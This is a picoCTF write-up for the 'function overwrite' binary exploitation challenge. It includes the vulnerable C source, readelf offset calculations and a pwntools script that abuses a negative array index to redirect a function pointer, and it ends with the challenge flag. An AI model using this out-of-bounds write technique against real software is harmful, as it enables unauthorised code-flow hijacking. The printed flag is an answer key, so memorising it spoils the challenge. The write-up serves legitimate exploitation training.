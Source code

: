 # funcion overwrite : Binary Exploitation

Story telling class 2/2  
You can point to all kinds of things in C. Checkout our function pointers demo [program](vuln). You can view source [here](vuln.c). And connect with it using `nc saturn.picoctf.net 50495`

Tags : Array_bounds, Function_pointers  
Author : Neel Bhavsar

# Solution

For now, try executing it.
```
$ nc saturn.picoctf.net 50495
Tell me a story and then I'll tell you if you're a 1337 >> aaaaaaaaaaaaaaaaaaaaa
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
1
1
You've failed this class.
```
Check the source code.
```c vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
The following is explanation of sorce code.
* `void (*check)(char*, size_t) = hard_checker;`:  
A function pointer `check` is declared and initialized to point to the `hard_checker` function.  
Subsequent calls to `check()` will invoke `hard_checker()` by default.
* `hard_checker()`:  
Internally calls `calculate_story_score(story, len)`, and if the returned value equals `13371337`, the flag is printed.
* `calculate_story_score(char* story, size_t len)`:  
Iterates `len` times, and in each iteration, adds the value at the index corresponding to the current iteration count in the `story` array to a `score` variable.  
After all iterations, the function returns the final computed `score`.
* `vuln()`:  
Reads up to 127 bytes of input into `story`, followed by two integers stored in `num1` and `num2`.  
If num1 is less than 10, it adds `num2` to the `fun[num1]`.  
Finally, the function calls `check(story, strlen(story))`, which effectively invokes `hard_checker()`.

By using `fun[num1] += num2;`, it's possible to overwrite the check function pointer from `hard_checker()` to `easy_checker()`.  
As a result, the required return value from `calculate_story_score()` is reduced to `1337`, making it significantly easier to satisfy the condition and retrieve the flag.

Check the security mechanism.
```
$ checksec vuln
[*] '/home/colza-picoctf/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
Caluculate the offset from the `fun` array to the `chek` function pointer.
```
$ readelf -a vuln
...
55: 0804c080    40 OBJECT  GLOBAL DEFAULT   26 fun
...
78: 0804c040     4 OBJECT  GLOBAL DEFAULT   25 check
...
```
It is determined that there is a difference of 0x40 bytes between them.  
Since each element of the `fun` array is 32 bits(4 bytes), the offset from `fun[]` to the `check` function pointer corresponds to element `-16`.

The address of `hard_checker()` is stored in `fun[-16]`, and by adding an appropriate value to it via `num2`, we aim to change it to the address of `easy_checker()`.  
Determine the offset from `hard_checker()` to `easy_checker()`.
```
$ readelf -a vuln
...
46: 08049436   314 FUNC    GLOBAL DEFAULT   15 hard_checker
...
77: 080492fc   314 FUNC    GLOBAL DEFAULT   15 easy_checker
...
```
The offset is caluculated as `0x08049436 - 0x080492fc = -13a(-314 bytes)`.

The total sum of `story` must be `1337`, which can be achieved using ten `~` characters and one `M` character.

Execution code below:
```python solve.py
from pwn import *

p = remote('saturn.picoctf.net', 50495)

payload_story = b"~" * 10 + b"M"
payload_num = b"-16 -314"

p.sendlineafter(b">> ", payload_story)
p.sendlineafter(b"than 10.\n", payload_num)

p.interactive()
```
Execute it.
```
$ python solve.py
[+] Opening connection to saturn.picoctf.net on port 50495: Done
[*] Switching to interactive mode
You're 1337. Here's the flag.
picoCTF{0v3rwrit1ng_P01nt3rs_55516c93}
[*] Got EOF while reading in interactive
```

Get the flag!

`picoCTF{0v3rwrit1ng_P01nt3rs_55516c93}`

